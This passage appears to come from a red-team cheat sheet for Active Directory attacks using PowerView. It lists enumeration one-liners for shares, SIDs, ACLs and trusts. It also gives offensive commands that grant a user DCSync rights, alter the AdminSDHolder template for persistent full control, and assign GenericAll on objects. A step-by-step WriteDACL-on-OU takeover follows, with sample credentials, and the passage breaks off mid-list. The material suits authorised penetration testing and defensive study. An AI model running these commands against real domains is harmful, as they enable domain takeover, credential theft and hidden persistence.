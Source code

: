 - Search for files across all shares on the domain
	- `Find-InterestingDomainShareFile -Include *training*`
- Get domain SID
	- `$(Get-ADDomain).DomainSID.Value`
- Get principal SID
	- `$(Get-ADUser Anakin).SID.Value`
- Return any principal that has GenericAll, WriteProperty, or WriteDacl on user "jadams"
	- `Get-DomainObjectAcl -Identity jadams | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select SecurityIdentifier, ActiveDirectoryRights | fl`
- Do the above but for an entire OU
	- `Get-DomainObjectAcl -SearchBase "CN=Users,DC=dev,DC=cyberbotic,DC=io" | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl`
- Grant user DCSync rights
	- `Add-DomainObjectAcl -TargetIdentity "DC=dev,DC=cyberbotic,DC=io" -PrincipalIdentity bfarmer -Rights DCSync`
- Modify AdminSDHolder DACL template to grant a user full rights
	- `Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,DC=dev,DC=cyberbotic,DC=io" -PrincipalIdentity bfarmer -Rights All`
- Return Kerberos policy for the domain
	- `Get-DomainPolicy | select -expand KerberosPolicy`
- Find principals native to another domain (outbound trust)
	- `Get-DomainForeignGroupMember -Domain cyberbotic.io`
- Find principals with ReadProperty on ms-Mcs-AdmPwd
	- `Get-DomainObjectAcl -SearchBase "LDAP://OU=Workstations,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -like "*ReadProperty*" } | select ObjectDN, SecurityIdentifier`
- Read ACEs applied to an object, automatically resolving the SID (Identity) for each.
	- `Get-ObjectAcl -Identity offsec -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}`
- Enumerate all ACEs for all domain users, resolve the SID, and filter on usernames that match our current user.
	- `Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}`
- Enumerate all domain groups to which our current user has explicit access rights
	- `Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | AddMember -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}`
- Add "GenericAll" access right to the TestService2 object for the principal "offsec"
	- `Add-DomainObjectAcl -TargetIdentity testservice2 -PrincipalIdentity offsec -Rights All`
- Enumerate Domain Trusts
	- `Get-DomainTrust`
	- Use DsEnumerateDomainTrusts API
		- `Get-DomainTrust -API`
- Exploit "WriteDACL" against an OU
	- With WriteDACL access on the OU object, you may grant yourself GenericAll against the OU, and then set another ACE on the OU that will inherit down to its descendent objects. First, you will need to set a GenericAll ACE against the OU object itself. This can be accomplished using the Add-DomainObjectAcl function in PowerView.
	- You may need to authenticate to the Domain Controller as a member of EVERYONE@GTS.INT if you are not running a process as a member if you are not running a process as a member of that group. To do this in conjunction with Add-DomainObjectACL, first create a PSCredential object (these examples comes from the PowerView help documentation)
		- `$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force`
		- `$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)`
	- Then, use Add-DomainObjectAcl, optionally specifying $Cred if you are not already running a process as a member of (group that holds the ACE against the OU)
		- `Add-DomainObjectAcl -Credential $Cred -TargetIdentity (OU GUID) -Rights All`
	- With full control of the OU, you may now add a new ACE on the OU that will inherit down to the objects under that OU. Below are two options depending on how targeted you choose to be in this step
		- Generic Descendent Object Takeover